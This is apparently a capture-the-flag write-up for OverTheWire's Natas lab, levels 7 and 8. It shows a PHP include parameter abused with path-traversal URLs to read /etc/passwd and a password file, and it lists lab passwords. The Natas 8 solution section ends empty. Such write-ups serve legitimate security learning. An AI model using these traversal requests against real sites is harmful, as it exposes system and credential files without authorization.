 ## Natas 7

### Credentials

Username: natas7

Password: bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

URL: http://natas7.natas.labs.overthewire.org

### Message

There is a page with a **Home** and an **About** links.

### Solution

The Home page redirects to http://natas7.natas.labs.overthewire.org/index.php?page=home, the About page to http://natas7.natas.labs.overthewire.org/index.php?page=about.

Try to get http://natas7.natas.labs.overthewire.org/index.php?page=test:

> Warning: include(test): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

> Warning: include(): Failed opening 'test' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas7/index.php on line 21

This error message is very useful... We can get a file from the file system, it seems.

It gives us also the base directory...

Try http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../etc/passwd.

This works, but we are not interested in this...

Try: http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../etc/natas_webpass/natas8.
This gives us:

> xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

## Natas 8

### Credentials

Username: natas8

Password: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

URL: http://natas8.natas.labs.overthewire.org

### Message

Input secret: ...

### Solution
